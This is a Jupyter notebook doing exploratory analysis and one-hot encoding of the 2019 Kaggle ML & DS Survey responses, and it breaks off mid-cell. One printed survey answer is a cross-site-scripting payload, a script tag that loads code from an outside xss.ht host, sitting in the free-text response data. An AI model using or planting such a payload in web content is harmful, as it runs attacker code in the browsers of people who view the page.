# 2019 Kaggle ML & DS Survey

In [0]:
import os
from google.colab import drive
drive.mount('/content/gdrive', force_remount=True)
!pwd
os.chdir('gdrive/Shared drives/Kaggle competition')
!pwd
!ls

Go to this URL in a browser: https://accounts.google.com/o/oauth2/auth?client_id=947318989803-6bn6qk8qdgf4n4g3pfee6491hc0brc4i.apps.googleusercontent.com&redirect_uri=urn%3aietf%3awg%3aoauth%3a2.0%3aoob&response_type=code&scope=email%20https%3a%2f%2fwww.googleapis.com%2fauth%2fdocs.test%20https%3a%2f%2fwww.googleapis.com%2fauth%2fdrive%20https%3a%2f%2fwww.googleapis.com%2fauth%2fdrive.photos.readonly%20https%3a%2f%2fwww.googleapis.com%2fauth%2fpeopleapi.readonly

Enter your authorization code:
··········
Mounted at /content/gdrive
/content
/content/gdrive/Shared drives/Kaggle competition
 2019_Kaggle_ML_DS_Survey_Analysis_Final.ipynb	 other_text_responses.csv
'2019 Kaggle ML & DS Survey.ipynb'		 questions_only.csv
 2win.ipynb					'survey_schema (1).gsheet'
 kaggle_attempt_1.ipynb				 survey_schema.csv
 multiple_choice_responses.csv			 survey_schema.gsheet
 multiple_choice_responses_srivas.csv		'Untitled document.gdoc'


In [0]:
# # This Python 3 environment comes with many helpful analytics libraries installed
# # It is defined by the kaggle/python docker image: https://github.com/kaggle/docker-python
# # For example, here's several helpful packages to load in 

# import numpy as np # linear algebra
# import pandas as pd # data processing, CSV file I/O (e.g. pd.read_csv)

# # Input data files are available in the "../input/" directory.
# # For example, running this (by clicking run or pressing Shift+Enter) will list all files under the input directory

# import os
# for dirname, _, filenames in os.walk('/kaggle/input'):
#     for filename in filenames:
#         print(os.path.join(dirname, filename))

# # Any results you write to the current directory are saved as output.

/kaggle/input/kaggle-survey-2019/questions_only.csv
/kaggle/input/kaggle-survey-2019/multiple_choice_responses.csv
/kaggle/input/kaggle-survey-2019/other_text_responses.csv
/kaggle/input/kaggle-survey-2019/survey_schema.csv


In [0]:
multi_response_path = './multiple_choice_responses.csv'
text_response_path = './other_text_responses.csv'
question_path = './questions_only.csv'
survey_schema_path = './survey_schema.csv'

In [0]:
# multi_response_path = '/kaggle/input/kaggle-survey-2019/multiple_choice_responses.csv'
# text_response_path = '/kaggle/input/kaggle-survey-2019/other_text_responses.csv'
# question_path = '/kaggle/input/kaggle-survey-2019/questions_only.csv'
# survey_schema_path = '/kaggle/input/kaggle-survey-2019/survey_schema.csv'

In [0]:
# basic function of python
import pandas as pd
import matplotlib as mpl
import matplotlib.pyplot as plt
import matplotlib.dates as mdates
import seaborn as sb
%matplotlib inline
import numpy as np
from pandas import ExcelWriter
from pandas import ExcelFile
import xlrd
from scipy import stats
from datetime import datetime

# feature selection
from sklearn.ensemble import ExtraTreesClassifier
from sklearn import feature_selection

# oversampling
from sklearn.utils import resample
from imblearn.over_sampling import SMOTE

# building the models
from sklearn.tree import DecisionTreeClassifier
from sklearn.metrics import accuracy_score
from sklearn.linear_model import LogisticRegression
from sklearn.model_selection import GridSearchCV
from sklearn.neighbors import KNeighborsClassifier
from sklearn import tree
from sklearn.ensemble import RandomForestClassifier
from sklearn.svm import SVC

# import tensorflow
# from tensorflow.contrib.keras import models, layers
# from tensorflow.contrib.keras import activations, optimizers, losses

# standardize the vaiable
from sklearn.preprocessing import StandardScaler

# from sklearn.cross_validation import train_test_split
from sklearn.model_selection import train_test_split

# validation
from sklearn.metrics import confusion_matrix,classification_report

/usr/local/lib/python3.6/dist-packages/sklearn/externals/six.py:31: DeprecationWarning: The module is deprecated in version 0.21 and will be removed in version 0.23 since we've dropped support for Python 2.7. Please rely on the official version of six (https://pypi.org/project/six/).
  "(https://pypi.org/project/six/).", DeprecationWarning)


In [0]:
# reading csv file  
multi_response = pd.read_csv(multi_response_path)
text_response = pd.read_csv(text_response_path)
question = pd.read_csv(question_path)
survey = pd.read_csv(survey_schema_path)

/usr/local/lib/python3.6/dist-packages/IPython/core/interactiveshell.py:2718: DtypeWarning: Columns (0,3,7,19,34,47,49,50,51,52,53,54,68,81,94,96,109,115,130,139,147,154,167,180,193,206,219,232,245) have mixed types. Specify dtype option on import or set low_memory=False.
  interactivity=interactivity, compiler=compiler, result=result)


# Exploratory Data Analysis

In this section, we deal with the data cleaning and check out some missing data or imbalance data.

In [0]:
multi_response.dtypes

Time from Start to Finish (seconds)    object
Q1                                     object
Q2                                     object
Q2_OTHER_TEXT                          object
Q3                                     object
                                        ...  
Q34_Part_9                             object
Q34_Part_10                            object
Q34_Part_11                            object
Q34_Part_12                            object
Q34_OTHER_TEXT                         object
Length: 246, dtype: object

In [0]:
print (f'Shape of multiple choice responses: {multi_response.shape}')
print (f'Shape of questions only: {question.shape}')
print (f'Shape of survey schema: {survey.shape}')
print (f'Shape of text responses: {text_response.shape}')

Shape of multiple choice responses: (19718, 246)
Shape of questions only: (1, 35)
Shape of survey schema: (10, 35)
Shape of text responses: (19718, 28)


In [0]:
multi_response.head()

,Time from Start to Finish (seconds),Q1,Q2,Q2_OTHER_TEXT,Q3,Q4,Q5,Q5_OTHER_TEXT,Q6,Q7,Q8,Q9_Part_1,Q9_Part_2,Q9_Part_3,Q9_Part_4,Q9_Part_5,Q9_Part_6,Q9_Part_7,Q9_Part_8,Q9_OTHER_TEXT,Q10,Q11,Q12_Part_1,Q12_Part_2,Q12_Part_3,Q12_Part_4,Q12_Part_5,Q12_Part_6,Q12_Part_7,Q12_Part_8,Q12_Part_9,Q12_Part_10,Q12_Part_11,Q12_Part_12,Q12_OTHER_TEXT,Q13_Part_1,Q13_Part_2,Q13_Part_3,Q13_Part_4,Q13_Part_5,...,Q31_OTHER_TEXT,Q32_Part_1,Q32_Part_2,Q32_Part_3,Q32_Part_4,Q32_Part_5,Q32_Part_6,Q32_Part_7,Q32_Part_8,Q32_Part_9,Q32_Part_10,Q32_Part_11,Q32_Part_12,Q32_OTHER_TEXT,Q33_Part_1,Q33_Part_2,Q33_Part_3,Q33_Part_4,Q33_Part_5,Q33_Part_6,Q33_Part_7,Q33_Part_8,Q33_Part_9,Q33_Part_10,Q33_Part_11,Q33_Part_12,Q33_OTHER_TEXT,Q34_Part_1,Q34_Part_2,Q34_Part_3,Q34_Part_4,Q34_Part_5,Q34_Part_6,Q34_Part_7,Q34_Part_8,Q34_Part_9,Q34_Part_10,Q34_Part_11,Q34_Part_12,Q34_OTHER_TEXT
0,Duration (in seconds),What is your age (# years)?,What is your gender? - Selected Choice,What is your gender? - Prefer to self-describe...,In which country do you currently reside?,What is the highest level of formal education ...,Select the title most similar to your current ...,Select the title most similar to your current ...,What is the size of the company where you are ...,Approximately how many individuals are respons...,Does your current employer incorporate machine...,Select any activities that make up an importan...,Select any activities that make up an importan...,Select any activities that make up an importan...,Select any activities that make up an importan...,Select any activities that make up an importan...,Select any activities that make up an importan...,Select any activities that make up an importan...,Select any activities that make up an importan...,Select any activities that make up an importan...,What is your current yearly compensation (appr...,Approximately how much money have you spent on...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,Who/what are your favorite media sources that ...,On which platforms have you begun or completed...,On which platforms have you begun or completed...,On which platforms have you begun or completed...,On which platforms have you begun or completed...,On which platforms have you begun or completed...,...,Which specific big data / analytics products d...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which of the following machine learning produc...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par...,Which automated machine learning tools (or par..

In [0]:
text_response.head()

,Q12_OTHER_TEXT,Q13_OTHER_TEXT,Q14_OTHER_TEXT,Q14_Part_1_TEXT,Q14_Part_2_TEXT,Q14_Part_3_TEXT,Q14_Part_4_TEXT,Q14_Part_5_TEXT,Q16_OTHER_TEXT,Q17_OTHER_TEXT,Q18_OTHER_TEXT,Q19_OTHER_TEXT,Q20_OTHER_TEXT,Q21_OTHER_TEXT,Q24_OTHER_TEXT,Q25_OTHER_TEXT,Q26_OTHER_TEXT,Q27_OTHER_TEXT,Q28_OTHER_TEXT,Q29_OTHER_TEXT,Q2_OTHER_TEXT,Q30_OTHER_TEXT,Q31_OTHER_TEXT,Q32_OTHER_TEXT,Q33_OTHER_TEXT,Q34_OTHER_TEXT,Q5_OTHER_TEXT,Q9_OTHER_TEXT
0,Who/what are your favorite media sources that ...,On which platforms have you begun or completed...,What is the primary tool that you use at work ...,What is the primary tool that you use at work ...,What is the primary tool that you use at work ...,What is the primary tool that you use at work ...,What is the primary tool that you use at work ...,What is the primary tool that you use at work ...,Which of the following integrated development ...,Which of the following hosted notebook product...,What programming languages do you use on a reg...,What programming language would you recommend ...,What data visualization libraries or tools do ...,Which types of specialized hardware do you use...,Which of the following ML algorithms do you us...,Which categories of ML tools do you use on a r...,Which categories of computer vision methods do...,Which of the following natural language proces...,Which of the following machine learning framew...,Which of the following cloud computing platfor...,What is your gender? - Prefer to self-describe...,Which specific cloud computing products do you...,Which specific big data / analytics products d...,Which of the following machine learning produc...,Which automated machine learning tools (or par...,Which of the following relational database pro...,Select the title most similar to your current ...,Select any activities that make up an importan...
1,"""><script src=https://abels.xss.ht></script>",NaN,NaN,Sheets,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,"""><script src=https://abels.xss.ht></script>"
2,NaN,NaN,NaN,Microsoft Excel,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
3,NaN,NaN,NaN,D,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN
4,NaN,NaN,NaN,Microsoft Excel,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN


In [0]:
question.head()

,Time from Start to Finish (seconds),Q1,Q2,Q3,Q4,Q5,Q6,Q7,Q8,Q9,Q10,Q11,Q12,Q13,Q14,Q15,Q16,Q17,Q18,Q19,Q20,Q21,Q22,Q23,Q24,Q25,Q26,Q27,Q28,Q29,Q30,Q31,Q32,Q33,Q34
0,Duration (in seconds),What is your age (# years)?,What is your gender? - Selected Choice,In which country do you currently reside?,What is the highest level of formal education ...,Select the title most similar to your current ...,What is the size of the company where you are ...,Approximately how many individuals are respons...,Does your current employer incorporate machine...,Select any activities that make up an importan...,What is your current yearly compensation (appr...,Approximately how much money have you spent on...,Who/what are your favorite media sources that ...,On which platforms have you begun or completed...,What is the primary tool that you use at work ...,How long have you been writing code to analyze...,Which of the following integrated development ...,Which of the following hosted notebook product...,What programming languages do you use on a reg...,What programming language would you recommend ...,What data visualization libraries or tools do ...,Which types of specialized hardware do you use...,Have you ever used a TPU (tensor processing un...,For how many years have you used machine learn...,Which of the following ML algorithms do you us...,Which categories of ML tools do you use on a r...,Which categories of computer vision methods do...,Which of the following natural language proces...,Which of the following machine learning framew...,Which of the following cloud computing platfor...,Which specific cloud computing products do you...,Which specific big data / analytics products d...,Which of the following machine learning produc...,Which automated machine learning tools (or par...,Which of the following relational database pro...


In [0]:
survey['2019 Kaggle Machine Learning and Data Science Survey']

0                                            Question:
1                                    # of Respondents:
2    Who was excluded? (0 = not excluded; 1 = exclu...
3      If What is your age (# years)? 0-17 Is Selected
4    If Select the title most similar to your curre...
5    If How long have you been writing code to anal...
6    If Approximately how much money have you spent...
7    If Which of the following ML algorithms do you...
8    If Which of the following ML algorithms do you...
9    If Does your current employer incorporate mach...
Name: 2019 Kaggle Machine Learning and Data Science Survey, dtype: object

In [0]:
multi_response = multi_response.drop([0])
multi_response = multi_response.reset_index(drop=True)
multi_response.head()

,Time from Start to Finish (seconds),Q1,Q2,Q2_OTHER_TEXT,Q3,Q4,Q5,Q5_OTHER_TEXT,Q6,Q7,Q8,Q9_Part_1,Q9_Part_2,Q9_Part_3,Q9_Part_4,Q9_Part_5,Q9_Part_6,Q9_Part_7,Q9_Part_8,Q9_OTHER_TEXT,Q10,Q11,Q12_Part_1,Q12_Part_2,Q12_Part_3,Q12_Part_4,Q12_Part_5,Q12_Part_6,Q12_Part_7,Q12_Part_8,Q12_Part_9,Q12_Part_10,Q12_Part_11,Q12_Part_12,Q12_OTHER_TEXT,Q13_Part_1,Q13_Part_2,Q13_Part_3,Q13_Part_4,Q13_Part_5,...,Q31_OTHER_TEXT,Q32_Part_1,Q32_Part_2,Q32_Part_3,Q32_Part_4,Q32_Part_5,Q32_Part_6,Q32_Part_7,Q32_Part_8,Q32_Part_9,Q32_Part_10,Q32_Part_11,Q32_Part_12,Q32_OTHER_TEXT,Q33_Part_1,Q33_Part_2,Q33_Part_3,Q33_Part_4,Q33_Part_5,Q33_Part_6,Q33_Part_7,Q33_Part_8,Q33_Part_9,Q33_Part_10,Q33_Part_11,Q33_Part_12,Q33_OTHER_TEXT,Q34_Part_1,Q34_Part_2,Q34_Part_3,Q34_Part_4,Q34_Part_5,Q34_Part_6,Q34_Part_7,Q34_Part_8,Q34_Part_9,Q34_Part_10,Q34_Part_11,Q34_Part_12,Q34_OTHER_TEXT
0,510,22-24,Male,-1,France,Master’s degree,Software Engineer,-1,"1000-9,999 employees",0,I do not know,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,"30,000-39,999",$0 (USD),Twitter (data science influencers),NaN,NaN,"Kaggle (forums, blog, social media, etc)",NaN,NaN,NaN,"Blogs (Towards Data Science, Medium, Analytics...",Journal Publications (traditional publications...,NaN,NaN,NaN,-1,NaN,Coursera,NaN,DataCamp,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
1,423,40-44,Male,-1,India,Professional degree,Software Engineer,-1,"> 10,000 employees",20+,"We have well established ML methods (i.e., mod...",Analyze and understand data to influence produ...,Build and/or run the data infrastructure that ...,Build prototypes to explore applying machine l...,Build and/or run a machine learning service th...,NaN,NaN,NaN,NaN,-1,"5,000-7,499","> $100,000 ($USD)",NaN,NaN,NaN,"Kaggle (forums, blog, social media, etc)",NaN,"YouTube (Cloud AI Adventures, Siraj Raval, etc)","Podcasts (Chai Time Data Science, Linear Digre...","Blogs (Towards Data Science, Medium, Analytics...",NaN,NaN,NaN,NaN,-1,NaN,Coursera,NaN,DataCamp,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
2,83,55-59,Female,-1,Germany,Professional degree,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1
3,391,40-44,Male,-1,Australia,Master’s degree,Other,0,"> 10,000 employees",20+,I do not know,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,"250,000-299,999","$10,000-$99,999",NaN,NaN,NaN,NaN,NaN,NaN,"Podcasts (Chai Time Data Science, Linear Digre...","Blogs (Towards Data Science, Medium, Analytics...",Journal Publications (traditional publications...,"Slack Communities (ods.ai, kagglenoobs, etc)",NaN,NaN,-1,NaN,Coursera,edX,DataCamp,NaN,...,-1,NaN,NaN,Azure Machine Learning Studio,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,None,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,Azure SQL Database,NaN,NaN,NaN,-1
4,392,22-24,Male,-1,India,Bachelor’s degree,Other,1,0-49 employees,0,No (we do not use ML methods),NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,"4,000-4,999",$0 (USD),NaN,NaN,NaN,NaN,NaN,"YouTube (Cloud AI Adventures, Siraj Raval, etc)",NaN,"Blogs (Towards Data Science, Medium, Analytics...",NaN,NaN,NaN,Other,0,NaN,NaN,NaN,NaN,NaN,...,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,-1


In [0]:
X_enc = multi_response.copy()

In [0]:
X_enc = pd.get_dummies(X_enc, columns=['Q9_Part_1','Q9_Part_2','Q9_Part_3','Q9_Part_4','Q9_Part_5','Q9_Part_6','Q9_Part_7','Q9_Part_8',\
                                       'Q12_Part_1','Q12_Part_2','Q12_Part_3','Q12_Part_4','Q12_Part_5','Q12_Part_6','Q12_Part_7','Q12_Part_8',\
                                       'Q12_Part_9','Q12_Part_10','Q12_Part_11','Q12_Part_12',\
                                       'Q13_Part_1','Q13_Part_2','Q13_Part_3','Q13_Part_4','Q13_Part_5','Q13_Part_6','Q13_Part_7','Q13_Part_8',\
                                       'Q13_Part_9','Q13_Part_10','Q13_Part_11','Q13_Part_12',\
                                       'Q16_Part_1','Q16_Part_2','Q16_Part_3','Q16_Part_4','Q16_Part_5','Q16_Part_6','Q16_Part_7','Q16_Part_8',\
                                       'Q16_Part_9','Q16_Part_10','Q16_Part_11','Q16_Part_12',\
                                       'Q17_Part_1','Q17_Part_2','Q17_Part_3','Q17_Part_4','Q17_Part_5','Q17_Part_6','Q17_Part_7','Q17_Part_8',\
                                       'Q17_Part_9','Q17_Part_10','Q17_Part_11','Q17_Part_12',\
                                       'Q18_Part_1','Q18_Part_2','Q18_Part_3','Q18_Part_4','Q18_Part_5','Q18_Part_6','Q18_Part_7','Q18_Part_8',\
                                       'Q18_Part_9','Q18_Part_10','Q18_Part_11','Q18_Part_12',\
                                       'Q20_Part_1','Q20_Part_2','Q20_Part_3','Q20_Part_4','Q20_Part_5','Q20_Part_6','Q20_Part_7','Q20_Part_8',\
                                       'Q20_Part_9','Q20_Part_10','Q20_Part_11','Q20_Part_12',\
                                       'Q21_Part_1','Q21_Part_2','Q21_Part_3','Q21_Part_4','Q21_Part_5',\
                                       'Q24_Part_1','Q24_Part_2','Q24_Part_3','Q24_Part_4','Q24_Part_5','Q24_Part_6','Q24_Part_7','Q24_Part_8',\
                                       'Q24_Part_9','Q24_Part_10','Q24_Part_11','Q24_Part_12',\
                                       'Q25_Part_1','Q25_Part_2','Q25_Part_3','Q25_Part_4','Q25_Part_5','Q25_Part_6','Q25_Part_7','Q25_Part_8',\
                                       'Q26_Part_1','Q26_Part_2','Q26_Part_3','Q26_Part_4','Q26_Part_5','Q26_Part_6','Q26_Part_7',\
                                       'Q27_Part_1','Q27_Part_2','Q27_Part_3','Q27_Part_4','Q27_Part_5','Q27_Part_6',\
                                       'Q28_Part_1','Q28_Part_2','Q28_Part_3','Q28_Part_4','Q28_Part_5','Q28_Part_6','Q28_Part_7','Q28_Part_8',\
                                       'Q28_Part_9','Q28_Part_10','Q28_Part_11','Q28_Part_12',\
                                       'Q29_Part_1','Q29_Part_2','Q29_Part_3','Q29_Part_4','Q29_Part_5','Q29_Part_6','Q29_Part_7','Q29_Part_8',\
                                       'Q29_Part_9','Q29_Part_10','Q29_Part_11','Q29_Part_12',\
                                       'Q30_Part_1','Q30_Part_2','Q30_Part_3','Q30_Part_4','Q30_Part_5','Q30_Part_6','Q30_Part_7','Q30_Part_8',\
                                       'Q30_Part_9','Q30_Part_10','Q30_Part_11','Q30_Part_12',\
                                       'Q31_Part_1','Q31_Part_2','Q31_Part_3','Q31_Part_4','Q31_Part_5','Q31_Part_6','Q31_Part_7','Q31_Part_8',\
                                       'Q31_Part_9','Q31_Part_10','Q31_Part_11','Q31_Part_12',\
                                       'Q32_Part_1','Q32_Part_2','Q32_Part_3','Q32_Part_4','Q32_Part_5','Q32_Part_6','Q32_Part_7','Q32_Part_8',\
                                       'Q32_Part_9','Q32_Part_10','Q32_Part_11','Q32_Part_12',\
                                       'Q33_Part_1','Q33_Part_2','Q33_Part_3','Q33_Part_4','Q33_Part_5','Q33_Part_6','Q33_Part_7','Q33_Part_8',\
                                       'Q33_Part_9','Q33_Part_10','Q33_Part_11','Q33_Part_12',\
                                       'Q34_Part_1','Q34_Part_2','Q34_Part_3','Q34_Part_4','Q34_Part_5','Q34_Part_6','Q34_Part_7','Q34_Part_8',\
                                       'Q34_Part_9','Q34_Part_10','Q34_Part_11','Q34_Part_12'])

In [0]:
X_enc.head()

,Time from Start to Finish (seconds),Q1,Q2,Q2_OTHER_TEXT,Q3,Q4,Q5,Q5_OTHER_TEXT,Q6,Q7,Q8,Q9_OTHER_TEXT,Q10,Q11,Q12_OTHER_TEXT,Q13_OTHER_TEXT,Q14,Q14_Part_1_TEXT,Q14_Part_2_TEXT,Q14_Part_3_TEXT,Q14_Part_4_TEXT,Q14_Part_5_TEXT,Q14_OTHER_TEXT,Q15,Q16_OTHER_TEXT,Q17_OTHER_TEXT,Q18_OTHER_TEXT,Q19,Q19_OTHER_TEXT,Q20_OTHER_TEXT,Q21_OTHER_TEXT,Q22,Q23,Q24_OTHER_TEXT,Q25_OTHER_TEXT,Q26_OTHER_TEXT,Q27_OTHER_TEXT,Q28_OTHER_TEXT,Q29_OTHER_TEXT,Q30_OTHER_TEXT,...,Q31_Part_9_AWS Kinesis,Q31_Part_10_Google Cloud Pub/Sub,Q31_Part_11_None,Q31_Part_12_Other,Q32_Part_1_SAS,Q32_Part_2_Cloudera,Q32_Part_3_Azure Machine Learning Studio,Q32_Part_4_Google Cloud Machine Learning Engine,Q32_Part_5_Google Cloud Vision,Q32_Part_6_Google Cloud Speech-to-Text,Q32_Part_7_Google Cloud Natural Language,Q32_Part_8_RapidMiner,Q32_Part_9_Google Cloud Translation,Q32_Part_10_Amazon SageMaker,Q32_Part_11_None,Q32_Part_12_Other,Q33_Part_1_ Google AutoML,Q33_Part_2_ H20 Driverless AI,Q33_Part_3_ Databricks AutoML,Q33_Part_4_ DataRobot AutoML,Q33_Part_5_ Tpot,Q33_Part_6_ Auto-Keras,Q33_Part_7_ Auto-Sklearn,Q33_Part_8_ Auto_ml,Q33_Part_9_ Xcessiv,Q33_Part_10_ MLbox,Q33_Part_11_None,Q33_Part_12_Other,Q34_Part_1_MySQL,Q34_Part_2_PostgresSQL,Q34_Part_3_SQLite,Q34_Part_4_Microsoft SQL Server,Q34_Part_5_Oracle Database,Q34_Part_6_Microsoft Access,Q34_Part_7_AWS Relational Database Service,Q34_Part_8_AWS DynamoDB,Q34_Part_9_Azure SQL Database,Q34_Part_10_Google Cloud SQL,Q34_Part_11_None,Q34_Part_12_Other
0,510,22-24,Male,-1,France,Master’s degree,Software Engineer,-1,"1000-9,999 employees",0,I do not know,-1,"30,000-39,999",$0 (USD),-1,-1,"Basic statistical software (Microsoft Excel, G...",0,-1,-1,-1,-1,-1,1-2 years,-1,-1,-1,Python,-1,-1,-1,Never,1-2 years,-1,-1,-1,-1,-1,-1,-1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
1,423,40-44,Male,-1,India,Professional degree,Software Engineer,-1,"> 10,000 employees",20+,"We have well established ML methods (i.e., mod...",-1,"5,000-7,499","> $100,000 ($USD)",-1,-1,"Cloud-based data software & APIs (AWS, GCP, Az...",-1,-1,-1,-1,0,-1,I have never written code,-1,-1,-1,NaN,-1,-1,-1,NaN,NaN,-1,-1,-1,-1,-1,-1,-1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
2,83,55-59,Female,-1,Germany,Professional degree,NaN,-1,NaN,NaN,NaN,-1,NaN,NaN,-1,-1,NaN,-1,-1,-1,-1,-1,-1,NaN,-1,-1,-1,NaN,-1,-1,-1,NaN,NaN,-1,-1,-1,-1,-1,-1,-1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
3,391,40-44,Male,-1,Australia,Master’s degree,Other,0,"> 10,000 employees",20+,I do not know,-1,"250,000-299,999","$10,000-$99,999",-1,-1,"Local development environments (RStudio, Jupyt...",-1,-1,-1,0,-1,-1,1-2 years,-1,-1,-1,Python,-1,-1,-1,Once,2-3 years,-1,-1,-1,-1,-1,-1,-1,...,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0
4,392,22-24,Male,-1,India,Bachelor’s degree,Other,1,0-49 employees,0,No (we do not use ML methods),-1,"4,000-4,999",$0 (USD),0,0,"Local development environments (RStudio, Jupyt...",-1,-1,-1,1,-1,-1,< 1 years,-1,-1,-1,Python,-1,-1,-1,Never,< 1 years,-1,-1,-1,-1,-1,-1,-1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0


In [0]:
# X_enc = X_enc.drop(['Q9_Part_1','Q9_Part_2','Q9_Part_3','Q9_Part_4','Q9_Part_5','Q9_Part_6','Q9_Part_7','Q9_Part_8',\
#                                        'Q12_Part_1','Q12_Part_2','Q12_Part_3','Q12_Part_4','Q12_Part_5','Q12_Part_6','Q12_Part_7','Q12_Part_8',\
#                                        'Q12_Part_9','Q12_Part_10','Q12_Part_11','Q12_Part_12',\
#                                        'Q13_Part_1','Q13_Part_2','Q13_Part_3','Q13_Part_4','Q13_Part_5','Q13_Part_6','Q13_Part_7','Q13_Part_8',\
#                                        'Q13_Part_9','Q13_Part_10','Q13_Part_11','Q13_Part_12',\
#                                        'Q16_Part_1','Q16_Part_2','Q16_Part_3','Q16_Part_4','Q16_Part_5','Q16_Part_6','Q16_Part_7','Q16_Part_8',\
#                                        'Q16_Part_9','Q16_Part_10','Q16_Part_11','Q16_Part_12',\
#                                        'Q17_Part_1','Q17_Part_2','Q17_Part_3','Q17_Part_4','Q17_Part_5','Q17_Part_6','Q17_Part_7','Q17_Part_8',\
#                                        'Q17_Part_9','Q17_Part_10','Q17_Part_11','Q17_Part_12',\
#                                        'Q18_Part_1','Q18_Part_2','Q18_Part_3','Q18_Part_4','Q18_Part_5','Q18_Part_6','Q18_Part_7','Q18_Part_8',\
#                                        'Q18_Part_9','Q18_Part_10','Q18_Part_11','Q18_Part_12',\
#                                        'Q20_Part_1','Q20_Part_2','Q20_Part_3','Q20_Part_4','Q20_Part_5','Q20_Part_6','Q20_Part_7','Q20_Part_8',\
#                                        'Q20_Part_9','Q20_Part_10','Q20_Part_11','Q20_Part_12',\
#                                        'Q21_Part_1','Q21_Part_2','Q21_Part_3','Q21_Part_4','Q21_Part_5',\
#                                        'Q24_Part_1','Q24_Part_2','Q24_Part_3','Q24_Part_4','Q24_Part_5','Q24_Part_6','Q24_Part_7','Q24_Part_8',\
#                                        'Q24_Part_9','Q24_Part_10','Q24_Part_11','Q24_Part_12',\
#                                        'Q25_Part_1','Q25_Part_2','Q25_Part_3','Q25_Part_4','Q25_Part_5','Q25_Part_6','Q25_Part_7','Q25_Part_8',\
#                                        'Q26_Part_1','Q26_Part_2','Q26_Part_3','Q26_Part_4','Q26_Part_5','Q26_Part_6','Q26_Part_7',\
#                                        'Q27_Part_1','Q27_Part_2','Q27_Part_3','Q27_Part_4','Q27_Part_5','Q27_Part_6',\
#                                        'Q28_Part_1','Q28_Part_2','Q28_Part_3','Q28_Part_4','Q28_Part_5','Q28_Part_6','Q28_Part_7','Q28_Part_8',\
#                                        'Q28_Part_9','Q28_Part_10','Q28_Part_11','Q28_Part_12',\
#                                        'Q29_Part_1','Q29_Part_2','Q29_Part_3','Q29_Part_4','Q29_Part_5','Q29_Part_6','Q29_Part_7','Q29_Part_8',\
#                                        'Q29_Part_9','Q29_Part_10','Q29_Part_11','Q29_Part_12',\
#                                        'Q30_Part_1','Q30_Part_2','Q30_Part_3','Q30_Part_4','Q30_Part_5','Q30_Part_6','Q30_Part_7','Q30_Part_8',\
